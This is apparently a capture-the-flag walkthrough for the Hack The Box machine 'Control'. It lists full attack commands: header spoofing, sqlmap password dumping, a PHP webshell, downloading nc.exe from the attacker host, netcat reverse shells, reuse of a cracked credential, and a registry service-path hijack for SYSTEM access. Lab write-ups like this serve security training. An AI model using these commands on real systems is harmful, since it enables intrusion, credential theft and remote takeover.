



# [Control](https://app.hackthebox.com/machines/control)

```bash
nmap -p- --min-rate 10000 10.10.10.167 -Pn 
```


After detection of open ports (80,135,3306), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,135,3306 10.10.10.167 -Pn
```


While we open web application, goes into '**admin**' page, it doesn't show. It says that it is allowed from internal network.

That's why, we need to check HTTP request headers that maybe we can masqueared ourselves as coming from internal network.

Let's fuzz HTTP request headers.

```bash
wfuzz -c -w headers -u http://10.10.10.167/admin.php -H "FUZZ: 192.168.4.28" --hh 89
```


Also, I need to write ip address due to below thing (source code comment)


Then, I found a [tool](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/) which adds automatically to each request on web application 


For this method, let's do SQL injection (searching products).


I saved the below one as .req file to use via `sqlmap` tool.




I also dumped the passwords of users for Mysql database.

```bash
sqlmap -H "X-Forwarded-For: 192.168.4.28" --random-agent --passwords -r post.req 
```


I cracked this passwords via [Crackstation](https://crackstation.net/)


Now, I grab the payload and replace this via my webshell as below.


I browse the page which I add my webshell '/uploads/dr4ks.php'.


Now, it's time to add `nc` binary into machine, then get reverse shell.

1.First, let's open http server and serve `nc` binary here.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


2.Then, make a `curl` request into webshell to download script.
```bash
curl '10.10.10.167/uploads/dr4ks.php?cmd=powershell+wget+http://10.10.16.6:8080/nc.exe+-outfile+\windows\temp\nc.exe'
```


Now, it's time to add reverse shell command into webshell.

```bash
curl '10.10.10.167/uploads/dr4ks.php?cmd=\windows\temp\nc.exe+-e+cmd+10.10.16.6+1337'
```


I got reverse shell from port (1337).




I found a password of 'hector' user from SQL Injection.

hector: l33th4x0rhector


Let's use this credentials to become 'hector' user.

```bash
$username = "CONTROL\hector"
$password = "l33th4x0rhector"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```


Let's test that our injected credentials worked or not.

```bash
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
```


Hola worked, let's add reverse shell into here.


1.First, we copy `nc` binary into somewhere on the machine via `wget` command
```bash
wget 10.10.16.6:8080/nc.exe -outfile \windows\system32\spool\drivers\color\nc.exe
```


2.Let's add our reverse shell into command section.
```bash
Invoke-Command -credential $cred -ScriptBlock { \windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.16.6 1338 } -computer localhost
```




I got reverse shell from port (1338).


user.txt


I searched insecure `ACLs(Access Control List)` via `accesschk.exe` tool.


Let's control services which we have **Write permission** or not.

```bash
accesschk.exe "Hector" -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services
```


I grab `seclogon` service from here.


Let's add our reverse shell cmdlet via `reg add` command.

```bash
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.6 2024 -e cmd.exe" /f
```


Then start the `seclogon` service to configs are located into their places.

```bash
sc start seclogon
```


I got reverse shell from port (2024)..


root.txt

